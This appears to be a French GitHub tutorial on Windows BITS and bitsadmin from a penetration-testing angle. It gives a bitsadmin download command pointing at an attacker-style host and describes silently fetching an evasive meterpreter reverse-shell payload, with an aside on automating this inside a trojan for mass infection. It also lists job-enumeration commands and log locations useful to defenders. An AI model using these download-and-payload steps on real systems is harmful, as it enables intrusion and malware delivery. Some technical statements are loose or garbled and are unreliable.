 ### Introduction à BITS : 

BITS veux dire Background Intelligent Transfer Service est un service très utilisé pour télécharger des fichiers à partir ou vers des serveurs Web HTTP et partage de fichier SMB. BITS est suffisamment autonome pour réduire un maximum les couts pour que se soit le plus optimisé possible pour l'utilisateur ou le programmeur car oui BITS peux aussi etre utile en programmation, BITS est programmable en C/C++ et peut etre appellé dans du .NET tout cela grace à COM.
BITS possède une version CLI qui s'appelle BitsAdmin et des commandes incluses dans le powershell. BITS peut etre utilisé pour de l'administration avec des systèmes de Logs depuis des actions comme /transfer ou les protocoles SANP ( protocoles de notification ) exemple : `SetNotifyFlag`. En pentest, BITS est très utilisé pour du EOAP ( Exfiltration over Alternative Protocol).
Utilisation de bitsadmin et analyse du traffics :

```powershell
bitsadmin /transfer howtohack http://192.168.1.45:8000/ak.txt "C:\Users\hth\Documents\ak.txt"
```

- **DISPLAY**: nom de job
- **FILE**: nombre de fichier
- **BYTES**: tailles du fichier "c le hack"
- **PRIORITY**: correspond à l'ordre de téléchargement
- **STATE**: Transféré, état du job.

on peux aussi l'utiliser avec le modules du PowerShell : `BitsTransfer`
```powershell
Import-Module BitsTransfer
```

BITS supporte par défaut le transfère asynchrone mais vous pouvez y précisez via l'argument `-Asychronous`, pour la validation du fichier il faut utiliser `Complete-BitsTransfer`.
Téléchargement d'un reverse shell meterpreter silencieusement : 

![image](https://user-images.githubusercontent.com/75935486/152225631-6de1bd82-5dc8-4ac3-b861-a73634d4fe45.png)

on lance le server HTTP et on télécharge la charge utile evasive via BITS en asynchrone. Dans un cadre de contamination en masse on peux rendre le téléchargement automatique en C ou C++ dans une tierce parti de Trojan, mais dans le cadre éducatif on reste dans des choses simple.


#### BITSAdmin enumeration : 

```powershell
# listé les jobs
bitsadmin /list
# avoir plus d'info sur un job
bitsadmin /info 482FCAF0-74BF-469B-8929-5CCD028C9499 /verbose
# géré les jobs actuels
bitsadmin /monitor
# un seul job à géré
bitsadmin /monitor 482FCAF0-74BF-469B-8929-5CCD028C9499
# info complète (Notify, Proxy, GUID...) sur tout les jobs actif :
bitsadmin /info
```

Logs BITS : `C:\Windows\System32\winevt\Logs\Microsoft-Windows-Bits-Client%4Operational`

![image](https://user-images.githubusercontent.com/75935486/152225800-497abaf1-1545-48b0-903e-9d87c51242f6.png)


#### BITS Enumeration depuis des requetes SC et depuis la db QMGR & ESE : 

QMGR signifie Querie Manager, il enregistre chaque activité de chaque BITS Job dans une base de données mais c'est chiffré, il faut utiliser hex editor ou autre editeur de base16 pour ésperer dump quelque chose.
ici ce qui nous interesse c'est QMGR.db car c'est que sont loggé les infos des BITS Job
![image](https://user-images.githubusercontent.com/75935486/152225890-df0b4a93-7476-4513-bd75-b470dc0752a3.png)


Pesistence avec BITS : 


Compromissions de Windows BITS:
- https://www.secureworks.com/blog/malware-lingers-with-bits

développement C++/C/.NET avec intégration de BITS : 
- https://docs.microsoft.com/en-us/windows/win32/bits/using-bits

